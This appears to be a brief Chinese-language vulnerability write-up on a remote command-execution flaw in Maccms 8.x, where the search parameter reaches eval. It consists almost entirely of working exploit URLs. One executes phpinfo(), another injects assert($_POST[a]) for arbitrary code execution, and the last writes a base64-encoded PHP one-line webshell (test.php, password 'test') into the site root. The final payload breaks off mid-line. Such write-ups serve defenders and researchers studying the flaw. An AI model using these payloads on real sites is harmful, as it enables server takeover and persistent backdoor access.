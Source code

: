 Maccms 8.x(苹果cms)命令执行漏洞
===============================

一、漏洞简介
------------

搜索页面搜索参数过滤不严 导致直接eval执行PHP语句，前台命令执行可getshell

二、漏洞影响
------------

Maccms 8.x

三、复现过程
------------

payload：

    http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A}

![](resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId24.png)

getshell payload（a）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

    POST

    a=phpinfo()

![](resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId25.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A
